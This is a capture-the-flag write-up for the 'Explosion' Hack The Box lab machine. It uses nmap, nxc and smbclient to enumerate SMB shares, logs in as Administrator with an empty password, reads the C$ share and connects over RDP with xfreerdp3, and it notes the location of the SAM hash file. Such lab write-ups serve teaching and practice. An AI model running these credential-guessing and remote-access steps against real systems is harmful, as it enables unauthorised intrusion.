


---
tags:
  - Windows
  - RDP
  - Weak credentials
---

.. is a very simple HTB machine which demonstrates the usage of `nmap` to find a `RDP` and a `SMB` service which can be exploited using a mis-configured `Administrator` account.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2012-05-28T23:54:19
|_Not valid after:  2012-11-27T23:54:19
|_ssl-date: 2012-05-29T23:56:45+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2012-05-29T23:56:38+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2012-05-29T23:56:40
|_  start_date: N/A
```
With this is a Windows server, the open ports `445` and `3389` are very interesting. They usually indicate Server Message Block (SMB), and Remote Desktop Protocol (RDP) services, respectively. SMB is pretty similar to FTP, but RDP allows users to take over the desktop of another user, and view his screen.
### Initial Exploitation
SMB is a more low-hanging fruit than RDP, so i issue the following command to gain some information about it:
```bash
nxc smb $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# smb: specification of the protocol. may be another protocol which is available. see available protocols with nxc -h!
```

The output does not show any signs of easy exploitation, but i still try to list all shares using a guest account:
```bash
nxc smb $IP -u 'a' -p '' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. can be anything, as it defaults to the user 'Guest', if the name is not found.
# -p: the password to use. empty here
# --shares: a flag which tells nxc to return a list of available shares.
```

The following output is given:
```bash
[+] Explosion\a: (Guest)
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
```
The Guest user has READ access to the Remote Inter-Process Communication Share (IPC). This was historically set as default in older windows PCs, which is why we are allowed to view the network shares or even domain accounts (using `--users` in `nxc`), if there were any.

Although that is cool, the `IPC$` share does not map to any physical folder on the machine, so there are no files on it. This leaves us at a dead end.

The next idea could be to brute force credentials, but I always try to view "brute-forcing" as a last resort, as it is noisy and may block the server. So i try to use standard credentials such as `admin:admin`, or `root:root`. A very good guess can be the user `Administrator`, as that is a standard name for highly privileged users on Windows machines.

When trying to list the shares using weak passwords to the `Administrator` account always gives me the message:
```bash
[-] Explosion\Administrator:password STATUS_LOGON_FAILURE
```

But when trying this `Administrator` account without a password, it surprisingly worked and it gave me these shares:
```bash
[+] Explosion\Administrator: (Pwn3d!)
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$          READ,WRITE      Remote Admin
C$              READ,WRITE      Default share
IPC$            READ            Remote IPC
```

The next step could be to dump all accessible files onto the system using `nxc`. That is not a good idea though, as Windows machines can have a ton of files, and it can clutter your own PC. Instead, i use `smbclient` to manually traverse the shares and look for interesting files as follows:
```bash
smbclient -U 'Administrator' //$IP/ADMIN$
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'Administrator'.
```

The `ADMIN$` share grants access to the `C:\Windows` system directory. When navigating to `C:\Windows\System32\config\SAM`, you can view the password hashes to local users. As the `Administrator` account is highly privileged, and his password is known (empty...), the `ADMIN$` share is not of use right now.

More interestingly, the `C$` share gives access to the whole `C:\` drive. When interacting with that share, the user has full access to the file system. As i have been playing CTFs before (booo...), i know that the flags are usually placed on the desktop on Windows machines. So, to fetch the flag located at `C:\Users\Administrator\Desktop\flag.txt`, i use `cd`, `ls`, and `get flag.txt` in an interactive SMB session!

#### Alternative Approach
When looking back at the `nmap` scan, we must not forget that remote desktop was also enabled. As we know the credentials of the `Administrator`, it is also worth a try.

The tool for this task is `xfreerdp3`. After finding out how it works using the examples of `xfreerdp3 --help`, this command opens up an interactive window where the PC of the target can be used:
```bash
xfreerdp3 /u:Administrator /p: /w:1366 /h:768 /v:$IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# /u: username to use. here, 'Administrator'.
# /p: password to use. here, empty.
# /w & /h: width and heigth of the window, respectively.
# /v: hostname of the RPC server.
```

There, you can then open and read the flag on the desktop:


### Summary

Below is a visualized summary of the exploitation steps used in this machine.



Or alternatively,

